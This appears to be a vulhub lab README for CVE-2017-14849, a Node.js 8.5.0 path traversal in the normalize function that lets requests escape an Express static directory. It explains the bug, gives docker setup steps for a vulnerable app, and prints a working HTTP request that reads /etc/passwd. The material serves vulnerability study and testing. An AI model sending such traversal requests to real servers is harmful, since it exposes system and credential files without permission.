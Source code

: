 # Node.js 8.5.0 Path Traversal (CVE-2017-14849)
https://github.com/vulhub/vulhub/tree/master/node/CVE-2017-14849

[中文版本(Chinese version)](README.zh-cn.md)

Node.js is a cross-platform, open-source JavaScript runtime environment. Node.js 8.5.0 before 8.6.0 allows remote attackers to access unintended files, because a change to ".." handling was incompatible with the pathname validation used by unspecified community modules.

The vulnerability exists due to a logic error in Node.js 8.5.0's `normalize` function when handling directory paths. When traversing up directories (e.g., `../../../../../../etc/passwd`), adding `foo/../` in the middle of the path (e.g., `../../../foo/../../../../etc/passwd`) causes `normalize` to incorrectly return `/etc/passwd`, when the correct result should be `../../../../../../etc/passwd`.

Web frameworks like Express typically provide static file server functionality that relies on the `normalize` function. For example, Express uses the `normalize` function to check if a path exceeds the static directory boundaries. The above bug causes the `normalize` function to return incorrect results, bypassing these checks and leading to arbitrary file read vulnerabilities.

While the `normalize` bug could potentially affect more than just Express and requires further investigation, its impact is limited since the bug was introduced in Node.js 8.5.0 and was fixed in version 8.6.

Reference links:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## Environment Setup

Run following commands to build and run a vulnerable application based on the Node.JS 8.5.0 and Express 4.15.5:

```
docker compose build
docker compose up -d
```

Visit `http://your-ip:3000/` to see a web page that references the file `/static/main.js`, indicating the presence of a static file server.

## Vulnerability Reproduce

Send the following request to read the passwd file:

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)
